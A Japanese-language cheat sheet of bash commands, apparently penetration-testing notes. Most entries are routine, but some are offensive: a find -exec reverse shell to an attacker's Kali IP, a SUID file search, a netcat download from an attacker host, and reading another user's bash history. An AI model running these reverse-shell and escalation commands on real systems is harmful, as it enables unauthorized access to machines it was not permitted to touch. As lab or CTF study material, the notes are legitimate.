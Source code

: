 # ubuntu bash

* ファイル指定

  ``` shell
      # 便利
      # $(which XXX)
      cp $(which find) /tmp/find
  ```

* cat

  ``` shell
      #過去の入力情報の表示
      cat /home/XXX/.bash_history
  ```

* cron

  ``` shell
      # 設定確認
      cat /etc/crontab
      #　登録
      crontab -u <ユーザ名> -e    
  ```

* curl

  ``` shell
      #curlでファイル転送
      curl http://<Remote KaliのIP>:8000/nc64.exe -o nc64.exe
  ```

* find

  ``` shell
      #sudo設定のファイルを検索
      find / -perm -4000
      #または
      find / -type f -perm -4000 -ls 2>/dev/null
      #コマンド実行
      find ~/.profile -exec /bin/bash -p -i >& /dev/tcp/<kali ip address>/4444 0>&1 \; -quit
  ```

* grep
  
    ```shell
      #階層検索
      grep -r
      #よく使う
      ls -l | grep -re XXXX -re YYY
      # 該当するファイル名表示
      grep -l
      # nseスクリプトで脆弱性検索
      grep <app_name> -rl /usr/share/nmap/scripts/ 
    ```

* egrep

    ``` shell
      # 実行されているOSバージョンを表示
      ls /etc | egrep -e "fedore*|debian*|gentoo*|mandriva*|mandrake*|meego*|redhat*|lsb-*|sun-*|SUSE*|release"
    ```

* ユーザ情報

  ``` shell
      id
  ```

* マウントされているボリュームの取得
  
  ``` shell
      mount
  ```

* netstat

  ``` shell
      # ネットワーク状態確認
      netstat -pantu
  ```

* パスワード変更

  ```shell
      passwd [USER_NAME]
  ```

* ProxyChains
  
  ``` shell
      #dynamic port forward　 
      #proxy経由でターゲットへのnmapスキャン
      proxychains nmap -top-ports=20 -sT -Pn XXX.XX.XXX.XXX
  ```

* pythonの仮想環境
  
  ``` bash
      #仮想環境の作成
      python3 -m venv myenv
      #仮想環境の有効か
      source myenv/bin/activate
      #仮想環境内でパッケージインストール
      pip install <package_name>
      #作業後仮想環境を無効化
      deactivate
  ```

* sftp
  
  ``` shell
      # sftp -i <秘密鍵> -P 8080 <ユーザ>@localhost
      sftp -i /home/kali/id_rsa -P 8080 testuser@localhost
      #接続後 ファイルを自分の端末に転送
      get /C:/Users/testuser/Desktop/Pentest/flag.txt
  ```

* ss
  
  ``` shell
      # portの開通確認
      ss -pantu
  ```

* ssh

  ``` shell
      ssh -i /home/XXX/.ssh/id_rsa <user_name>@XXX.XXX.XXX.XXX -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null
  ```

* sudo
  
    ``` shell
        #sudoの情報表示
        sudo -l
    ```

* wget
  * ダウンロード

  ``` shell
      # ダウンロード
      wget https://www.exploit-db.com/download/XXXXXX -O filename
  ```
  
  * 自前のwebサーバーからファイルをダウンロードさせる。

  ``` shell
      # Web server
      python -m http.server 8000
      # 転送
      # wget -O [転送先] [転送するファイル]
      wget -O /tmp/XXX http://XXX.XXX.XXX.XXX:8000/filename
  ```

* xfreerdp

  ``` shell
      xfreerdp /u:win /p:password /v:127.0.0.1
  ```
